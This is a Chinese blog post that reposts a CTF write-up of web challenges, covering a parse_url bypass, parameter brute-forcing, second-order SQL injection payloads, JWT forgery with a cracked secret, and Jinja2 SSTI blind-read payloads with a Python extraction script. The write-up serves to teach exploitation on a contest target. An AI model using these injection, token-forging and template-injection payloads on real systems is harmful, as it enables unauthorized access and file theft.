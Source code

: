 ```yaml
---
layout:     post
title:      深入了解Json Web Token
date:       2018-12-16
author:     Wh0ale
header-img: img/wallhaven-714676.jpg
catalog: true
tags:
    - JWT
---
```




通过赛题深入了解JWT

比赛环境没关，可以找其他人借账号复现本次比赛题目，以下是网鼎杯第三场Web题解。

## Web

### comein

题目：由于运维人员失误，内网认证页面部署至了外网，不过还好，开发加了域名验证。

[![img](https://xzfile.aliyuncs.com/media/upload/picture/20180828204718-7f747460-aac0-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20180828204718-7f747460-aac0-1.png)

查看源码，发现如下代码：

[![img](https://xzfile.aliyuncs.com/media/upload/picture/20180828204718-7f9837e2-aac0-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20180828204718-7f9837e2-aac0-1.png)

很明显又是考察 **parse_url** 函数绕过，只不过开头多了对点号的匹配，绕过即可。使用 **payload**：**.@c7f.zhuque.com/..//**

[![img](https://xzfile.aliyuncs.com/media/upload/picture/20180828204718-7fa83c50-aac0-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20180828204718-7fa83c50-aac0-1.png)

可以自己本地调试一下。

[![img](https://xzfile.aliyuncs.com/media/upload/picture/20180828204718-7fbe7394-aac0-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20180828204718-7fbe7394-aac0-1.png)

### gold

题目：还在上小学的小明同学开发了一款游戏，你能通关吗？

[![img](https://xzfile.aliyuncs.com/media/upload/picture/20180828204718-7fcab622-aac0-1.gif)](https://xzfile.aliyuncs.com/media/upload/picture/20180828204718-7fcab622-aac0-1.gif)

**Burpsuite** 抓包会发现浏览器一直发送POST数据，应该是通过Ajax来发起请求的：

[![img](https://xzfile.aliyuncs.com/media/upload/picture/20180828204719-7fe7503e-aac0-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20180828204719-7fe7503e-aac0-1.png)

根据题目提示： **收集1000金币即可过关** 。尝试直接将参数 **getGod** 的值修改为1000，发现会触发检测机制。

[![img](https://xzfile.aliyuncs.com/media/upload/picture/20180828204719-7ffb2f50-aac0-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20180828204719-7ffb2f50-aac0-1.png)

于是使用 **Burpsuite** 抓包，用 **Intruder** 模块从0跑到1001，在 **getGod=1001** 的数据包中获得flag：

[![img](https://xzfile.aliyuncs.com/media/upload/picture/20180828204719-800dba30-aac0-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20180828204719-800dba30-aac0-1.png)

PS：用多线程跑会触发游戏的反作弊机制，用单线程按顺序跑就能出flag。

### phone

题目：find the flag.

[![img](https://xzfile.aliyuncs.com/media/upload/picture/20180828204719-801a9444-aac0-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20180828204719-801a9444-aac0-1.png)

看到这道题目，马上就想到 [2017广东省强网杯(第三题)](https://mochazz.github.io/2017/09/11/QWBCTF/) 。测试了一下，果然在用户注册处的电话处存在二次注入，测试结果如下：

[![img](https://xzfile.aliyuncs.com/media/upload/picture/20180828204719-802de544-aac0-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20180828204719-802de544-aac0-1.png)

[![img](https://xzfile.aliyuncs.com/media/upload/picture/20180828204719-803ad272-aac0-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20180828204719-803ad272-aac0-1.png)

可以发现这里查询结果为： **有1人和你电话相似哦~** ，而实际上这是我注册的第一个用户，数据库中不可能有用户的电话和我一样，所以应该是执行了我们刚刚构造的 **SQL语句** ，因为后面的布尔逻辑值为真。所以我们分别构造获取表名、列名、字段的 **payload** 如下：

获取表名：

```
aaa' union select group_concat(table_name) from information_schema.tables where table_schema=database() order by 1 desc#
username=test4&password=test4&phone=0x6161612720756e696f6e2073656c6563742067726f75705f636f6e636174287461626c655f6e616d65292066726f6d20696e666f726d6174696f6e5f736368656d612e7461626c6573207768657265207461626c655f736368656d613d64617461626173652829206f726465722062792031206465736323&register=Login
```

[![img](https://xzfile.aliyuncs.com/media/upload/picture/20180828204719-80470538-aac0-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20180828204719-80470538-aac0-1.png)

获取列名：

```
aaa' union select group_concat(column_name) from information_schema.columns where table_name="flag" order by 1 desc#
username=test6&password=test6&phone=0x6161612720756e696f6e2073656c6563742067726f75705f636f6e63617428636f6c756d6e5f6e616d65292066726f6d20696e666f726d6174696f6e5f736368656d612e636f6c756d6e73207768657265207461626c655f6e616d653d22666c616722206f726465722062792031206465736323&register=Login
```

[![img](https://xzfile.aliyuncs.com/media/upload/picture/20180828204719-80525c6c-aac0-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20180828204719-80525c6c-aac0-1.png)

获取字段：

```
aaa' union select f14g from flag order by 1 desc#
username=test7&password=test7&phone=0x6161612720756e696f6e2073656c65637420663134672066726f6d20666c6167206f726465722062792031206465736323&register=Login
```

[![img](https://xzfile.aliyuncs.com/media/upload/picture/20180828204719-805e9004-aac0-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20180828204719-805e9004-aac0-1.png)

这里可能有人会不明白为什么要加上 **order by 1 desc** ，大家可以试试下面这个 **payload** ：

```
aaa' union select group_concat(table_name) from information_schema.tables where table_schema=database()#
username=test8&password=test8&phone=0x6161612720756e696f6e2073656c6563742067726f75705f636f6e636174287461626c655f6e616d65292066726f6d20696e666f726d6174696f6e5f736368656d612e7461626c6573207768657265207461626c655f736368656d613d6461746162617365282923&register=Login
```

[![img](https://xzfile.aliyuncs.com/media/upload/picture/20180828204719-806b2e68-aac0-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20180828204719-806b2e68-aac0-1.png)

实际上后台的 **SQL语句** 类似下图 **第一个SQL语句** ：

[![img](https://xzfile.aliyuncs.com/media/upload/picture/20180828204720-80b028a6-aac0-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20180828204720-80b028a6-aac0-1.png)

### i_am_admin

题目：你能登录进去吗？

[![img](https://xzfile.aliyuncs.com/media/upload/picture/20180828204720-80c261e2-aac0-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20180828204720-80c261e2-aac0-1.png)

抓取登录数据包，发现 **JWT** ：

[![img](https://xzfile.aliyuncs.com/media/upload/picture/20180828204720-80d6d6fe-aac0-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20180828204720-80d6d6fe-aac0-1.png)

登录进去可以发现用于加密的 **secret key** ：

[![img](https://xzfile.aliyuncs.com/media/upload/picture/20180828204720-80e54720-aac0-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20180828204720-80e54720-aac0-1.png)

使用这个 **secret key** 到 <https://jwt.io/> 生成 **admin** 对应的 **token** 值：

[![img](https://xzfile.aliyuncs.com/media/upload/picture/20180828204720-80fa7a8c-aac0-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20180828204720-80fa7a8c-aac0-1.png)

使用该 **token** 值访问网站即可获得flag：

[![img](https://xzfile.aliyuncs.com/media/upload/picture/20180828204721-810e6da8-aac0-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20180828204721-810e6da8-aac0-1.png)

### mmmmy

题目：find the flag.

[![img](https://xzfile.aliyuncs.com/media/upload/picture/20180828204721-811c4b6c-aac0-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20180828204721-811c4b6c-aac0-1.png)

抓包发现又是python的web程序，使用了JWT：(随手用test/test登录即可看到)

[![img](https://xzfile.aliyuncs.com/media/upload/picture/20180828204721-8137b456-aac0-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20180828204721-8137b456-aac0-1.png)

使用 [**c-jwt-cracker**](https://github.com/brendan-rius/c-jwt-cracker) 爆破 **secret key** ：

[![img](https://xzfile.aliyuncs.com/media/upload/picture/20180828204721-81564a60-aac0-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20180828204721-81564a60-aac0-1.png)

发现只有 **admin** 才能用留言板功能，所以 **伪造admin的token** 登录：

![img](https://xzfile.aliyuncs.com/media/upload/picture/20180828204721-816bdcfe-aac0-1.png)

**virink** 师傅提醒说留言板处存在 **SSTI** ，于是测试了下，果然存在，只不过过滤了 **{{}}** 的写法，那我们可以换成流程控制结构的写法 **{%if 表达式%}内容1{%else%}内容2{%endif%}** ，测试如下：

[![img](https://xzfile.aliyuncs.com/media/upload/picture/20180828204721-817c1b0a-aac0-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20180828204721-817c1b0a-aac0-1.png)

[![img](https://xzfile.aliyuncs.com/media/upload/picture/20180828204721-818af3e6-aac0-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20180828204721-818af3e6-aac0-1.png)

那么后面的数据就要盲注出来了，使用的 **payload** 类似如下:

```
text={%  if open('/flag','r').read()[0]=='f' %}1{%  else  %}0{%  endif  %}
```

这里实际上过滤了单、双引号，我们可以使用以下payload进行绕过：

```
text={% if request.values.e[18] == ()[request.values.a][request.values.b][request.values.c]()[40](request.values.d).read()[0]%}good{%endif%}&a=__class__&b=__base__&c=__subclasses__&d=/flag&e=}-{0123456789abcdefghijklmnopqrstuvwxyz
```

[![img](https://xzfile.aliyuncs.com/media/upload/picture/20180828204721-81995b8e-aac0-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20180828204721-81995b8e-aac0-1.png)

getflag程序如下：

```python
import requests,sys
url = "http://4532bc69bc734acd8416204f0aa04f446e9d38024c5644e8.game.ichunqiu.com/bbs"
cookie = {
    "token" : "eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6ImFkbWluIn0.IXEkNe82X4vypUsNeRFbhbXU4KE4winxIhrPiWpOP30"
}
chars = "}-{0123456789abcdefghijklmnopqrstuvwxyz"
flag = ''
for i in range(0,50):
    for j in range(0,len(chars)):
        data = {
            "text" : "{%% if request.values.e[%d] == ()[request.values.a][request.values.b][request.values.c]()[40](request.values.d).read()[%d]%%}getflag{%%endif%%}" % (j,i),
            "a" : "__class__",
            "b" : "__base__",
            "c" : "__subclasses__",
            "d" : "/flag",
            "e" : chars
        }
        r = requests.post(url=url,data=data,cookies=cookie)
        if 'getflag' in r.text:
            flag += chars[j]
            sys.stdout.write("[+] "+ flag + '\r')
            sys.stdout.flush()
            if chars[j] == '}':
                print(flag)
                exit()
            else:
                break
print(len(r.text))
```



[![img](https://xzfile.aliyuncs.com/media/upload/picture/20180828204722-81aa70fe-aac0-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20180828204722-81aa70fe-aac0-1.png)



转载自先知：https://xz.aliyun.com/t/2648

[深入了解Json Web Token之概念篇](https://www.freebuf.com/articles/web/180874.html)

[深入了解Json Web Token之实战篇](https://www.freebuf.com/articles/web/181261.html)

https://jwt.io/